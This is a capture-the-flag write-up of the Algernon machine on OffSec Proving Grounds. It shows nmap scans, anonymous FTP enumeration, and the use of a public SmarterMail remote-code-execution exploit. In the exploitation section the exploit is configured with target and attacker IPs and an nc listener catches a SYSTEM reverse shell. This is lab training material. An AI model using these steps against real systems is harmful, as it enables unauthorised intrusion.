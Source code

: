 ```yaml
---
layout: post
title: Algernon - Proving Grounds
date: 31-01-2025
categories: [Writeups]
tag: [Proving Grounds, Windows, Easy]
---
```


# Algernon - Walkthrough

Algernon is an easy box on OFFSEC’s Proving Grounds and the community agrees that it is easy difficulty. 

## Recon
Start scanning all ports:
```
nmap -p- 192.168.234.65 -T 5 -v    
```
![Scan de todas as portas](/assets/images/Algernon/1.png)

Scanning only the open doors we found:

```
nmap -sC -sV -Pn 192.168.234.65 -p 21,80,135,139,445,5040,9998,49664,49665,49666,49668,17001  -v
```

## Enumeration

I logged in anonymously to ftp with the login anonymous and no password.
Inside the Logs folder I found a file called 2020.05.12-administrative.log

![ftp](/assets/images/Algernon/3.png)

I downloaded the file containing the following information:

![ftp](/assets/images/Algernon/4.png)

I accessed port 9998, which directed me to an email service called SmarterMail:

![smartermail](/assets/images/Algernon/5.png)

## Exploitation
I searched the exploit db for an exploit and found the SmarterMail Build 6985 - Remote Code Execution exploit. I downloaded it with searchsploit:

```
searchsploit -m 49216   
```
Then I edited the exploit by putting in the target's ip and my ip and port that was waiting for the connection:

```
HOST='192.168.234.65'
PORT=17001
LHOST='192.168.45.162'
LPORT=4444
```
I saved the file and started my listener:
```
 nc -lnvp 4444
```
I ran the exploit and got the shell with the user nt authority\system, browsed the host and found the flag on the user administrator's desktop

![smartermail](/assets/images/Algernon/6.png)

